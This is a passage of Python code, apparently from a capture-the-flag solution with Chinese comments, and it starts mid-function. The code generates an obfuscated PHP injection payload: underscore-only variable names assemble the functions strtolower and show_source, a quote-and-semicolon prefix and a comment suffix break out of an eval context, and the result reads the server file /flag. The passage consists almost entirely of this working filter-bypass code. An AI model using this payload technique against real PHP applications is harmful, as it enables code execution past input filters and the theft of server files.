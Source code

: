   ```
  	first =  "$" + ("_" * offset)
  	for i in range(1, len(payload)):
  		if payload[i] == '_':
  			res += f"{first}.='_';"
  			continue
  		if payload[i] == '/':
  			res += f"{first}.='/';"
  			continue
  		final_var = "$" + ("_" * (i + offset))
  		res += f"{first}.={final_var};"
  	return [res, "$" + "_" * (offset)]
  
  pre = "'');"
  after = '//'
  
  buff = len('STRTOLOWERSHOW_SOURCE')
  flag = g("/FLAG", buff)
  
  buff = len('STRTOLOWER')
  showsource = g("SHOW_SOURCE", buff)
  
  buff = 0
  strtolower = g('STRTOLOWER', buff)
  
  final = ''
  
  #1.构造STRTOLOWER并存进变量a
  final += strtolower[0]
  a = strtolower[1] # a = '$___' # STRTOLOWER
  
  #2.构造SHOW_SOURCE并存进变量b
  final += showsource[0]
  b = showsource[1] # b = '$_____________' #SHOW_SOURCE
  
  #3.构造/FLAG并存进变量c
  final += flag[0] + flag[1] + "='/'." + flag[1] + ';'
  c = flag[1] # c = '$________________________' #/FLAG
  
  #声明好abc变量
  padding = f'$______________________________________________={a};$_______________________________________________={b};$________________________________________________={c};'
  final += padding
  
  # 4.变量d = a(c) 则变量d为/flag
  d = "$______________________________________________($________________________________________________);"
  padding = '$_________________________________________________='+d
  final += padding
  
  #5. b(d) 即为SHOW_SOURCE('/flag')
  final += '$_______________________________________________($_________________________________________________);'
  
  final = pre + final
  final = final + after
  print(final.replace('+', '%2b'))
  ```
